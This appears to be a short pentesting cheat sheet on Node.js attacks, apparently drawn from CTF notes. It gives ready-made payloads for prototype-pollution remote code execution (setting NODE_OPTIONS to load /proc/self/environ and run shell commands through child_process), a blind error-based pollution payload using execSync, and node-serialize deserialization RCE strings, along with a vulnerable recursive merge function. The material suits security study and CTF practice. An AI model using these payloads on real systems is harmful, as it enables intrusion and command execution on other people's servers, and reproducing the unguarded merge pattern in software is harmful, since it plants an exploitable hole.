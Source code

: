 # NodeJS

### NodeJS Polluting environment

```javascript
{"name":"xct","constructor":{"prototype":{"env":{"AAAA":"require('child_process').exec('cat *').stdout.pipe(process.stdout);//","NODE_OPTIONS":"--require /proc/self/environ"}}},"paper":10}
```

By polluting the environment we can inject require to execute a local file. If we point this to /proc/self/environ and place an environment variable there we can execute code. On a ctf challenge this worked because of faulty merge method:

```javascript
merge(target, source) {
        for (let key in source) {
            if (this.isValidKey(key)){
                if (this.isObject(target[key]) && this.isObject(source[key])) {
                    this.merge(target[key], source[key]);
                } else {
                    target[key] = source[key];
                }
            }
        }
        return target;
    },
```

Blogpost: [https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

### NodeJS Blind Error based Pollution

```text
[(function test(xct){return ''[!xct?'__proto__':'constructor'][xct]})('constructor')('throw new Error(global.process.mainModule.constructor._load(\"child_process\").execSync(\" PAYLOAD \").toString())')()]
```

### NodeJS Deserialization RCE

#### Vulnerable Code

```text
var s = require('node-serialize');
s.unserialize(data);
```

#### Exploit

```text
{"a":"_$$ND_FUNC$$_function(){console.log(\"xct\")}"}
{"a":"_$$ND_FUNC$$_function(){require('child_process').exec('...')}()"}
```

